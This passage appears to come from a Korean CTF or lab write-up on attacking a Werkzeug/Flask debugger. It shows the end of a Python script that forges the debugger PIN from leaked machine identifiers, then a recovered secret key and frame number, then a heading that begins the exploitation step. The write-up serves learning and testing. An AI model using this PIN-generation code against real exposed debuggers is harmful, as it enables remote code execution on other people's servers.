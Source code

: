 ```python
        b'68b7c399-244d-470b-b6fa-1efd3c0a294elibpod-ab9607f5d4e7586b770c3cbdee2f6569cf38521c027de1b0e9033c393418aa0f' # /proc/sys/kernel/random/boot_id + /proc/self/cgroup
    ]

    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode("utf-8")
        h.update(bit)
    h.update(b"cookiesalt")

    # If we need to generate a pin we salt it a bit more so that we don't
    # end up with the same value and generate out 9 digits
    if num is None:
        h.update(b"pinsalt")
        num = f"{int(h.hexdigest(), 16):09d}"[:9]

    # Format the pincode in groups of digits for easier remembering if
    # we don't have a result yet.
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = "-".join(
                    num[x : x + group_size].rjust(group_size, "0")
                    for x in range(0, len(num), group_size)
                )
                break
        else:
            rv = num

    return rv

print(get_pin_and_cookie_name())
```

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/98d57628-987a-4849-9a6d-fe17643e4b6b" width = 850>
</p>

* **Secret Key** : PU1SKs7zR9IOYtG3qy3k

* **Frame Number** : 139805351218192

### Exploit

생성한 Pin Code와 이전에 확인하였던 Log를 통해서 `curl`로 접속을 시도해보겠습니다.

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/07a1fc28-06ef-4047-9c26-5902cb34948f" width = 850>
</p>
